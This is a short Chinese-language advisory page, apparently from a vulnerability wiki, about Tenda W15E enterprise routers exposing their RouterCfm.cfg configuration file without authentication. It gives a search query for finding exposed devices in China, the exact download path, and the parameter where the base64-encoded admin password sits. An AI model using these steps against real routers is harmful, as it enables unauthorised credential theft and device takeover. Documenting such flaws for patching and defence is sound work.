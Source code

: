 # Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](/assets/PeiQi-Wiki/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

后台账号密码位于参数 `sys.userpass` base64解密后的字符

![img](/assets/PeiQi-Wiki/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)




